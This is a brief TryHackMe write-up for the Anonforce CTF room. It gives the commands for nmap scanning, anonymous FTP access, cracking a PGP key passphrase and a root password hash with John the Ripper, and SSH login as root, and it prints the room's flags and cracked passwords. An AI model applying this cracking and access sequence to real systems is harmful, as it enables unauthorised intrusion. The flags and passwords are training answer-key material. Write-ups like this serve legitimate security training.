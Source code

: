# <div align="center">[Anonforce  — short TryHackMe Writeup](https://tryhackme.com/r/room/bsidesgtanonforce)</div>
<div align="center">boot2root machine for FIT and bsides guatemala CTF</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/b2bd9f6b-8995-402a-8e54-2c5596bc16cc" height="200"></img>
</div>

## Task 1. Anonforce Machine

Read user.txt and root.txt
### User.txt
* ```nmap -sC -sV <IP>```
* ```ftp <IP>```
* ```cd home/melodias```
* ```get user.txt```
* ```cat user.txt```
```
606083fd33beb1284fc51f411a706af8
```
### Root.txt
* ```ls /notread```
* ```gpg --import private.asc```
* ```/data/src/john/run/gpg2john private.asc > pgp.hash```
* ```john pgp.hash --wordlist=/data/src/wordlists/rockyou.txt```
* ```# xbox360          (anonforce)* ```
* ```gpg --import private.asc```
* ```gpg --decrypt backup.pgp```
* ```john backup --wordlist=/data/src/wordlists/rockyou.txt```
* ```root: hikari```
* ```ssh root@<IP>```
* ```cat root.txt```
```
f706456440c7af4187810c31c6cebdce
```
